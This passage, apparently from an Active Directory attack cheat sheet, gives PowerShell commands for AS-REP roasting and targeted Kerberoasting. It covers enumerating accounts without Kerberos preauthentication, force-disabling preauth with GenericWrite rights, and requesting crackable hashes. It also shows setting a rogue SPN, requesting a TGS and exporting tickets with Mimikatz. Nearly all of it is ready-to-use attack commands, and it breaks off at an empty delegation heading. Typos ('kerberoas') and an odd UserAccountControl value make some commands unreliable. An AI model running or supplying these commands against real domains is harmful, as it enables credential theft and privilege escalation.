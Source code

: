 ## AS-REPs
- If a user's `UserAccountControl` settings have "Do not require kerberoas preauthentication" enabled,it's possible to grab user's crackable AS-REP and brute-force it online.
- With sufficient rights `GenericWrite` or `GenericAll`,Preauth can be forced disabled as well.

**Enumerating accounts with preauth disabled.**
```powershell
#Powerview module
Get-DomainUser -PreauthNotRequired -Verbose
#ActiveDirectory module
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
**Force disable kerberoas Preauth.**
```powershell
#Powerview module
Set-DomainObject -Identity <USER> -XOR @{useraccountcontrol=41914304} -verbose
```
**Request encrypted AS-REP for offline brute-force**
```powershell
#ASREPRoast module
Get-ASREPHash -UserName <USER> -verbose
```
**To enumerate all users with preauth and request a hash**
```powershell
#ASREPRoast module
Invoke-ASREPRoast -verbose
```
## Set SPN
- With sufficient rights `GenericWrite` or `GenericAll`,a target user's **SPN** can be set to anything (unique in the domain).
- We can then request a `TGS` without special privileges.

**Set a SPN for the user (Must be unique for the domain)**
1. Set the SPN.
```powershell
#Powerview module
Set-DomainObject -Identity <User> -Set @{serviceprincipalname='ops/whatever1'}
#ActiveDirectory module
Set-ADUser -Identity <User> -ServicePrincipalNames @{Add='ops/whatever1'}
```
2. Request a `TGS`.
```powershell
#ActiveDriectory module
Add-Type -AssemblyName system.IdentityModel
New-Object system.IdentityModel.Tokens.kerberosRequestorsecurityToken -ArgumentList "<ServicePrincipleName>"
```
3. Confirm that we have the `TGS` in memory.
```powershell
klist
```
4. Save the `TGS` to disk.
```powershell
Invoke-Mimikatz -command '"kerberoas::list /export"'
```
5. Get the hash.
```powershell
#Powerview
Request-SPNTicket
```
---
# Unconstrained delegation
## Definition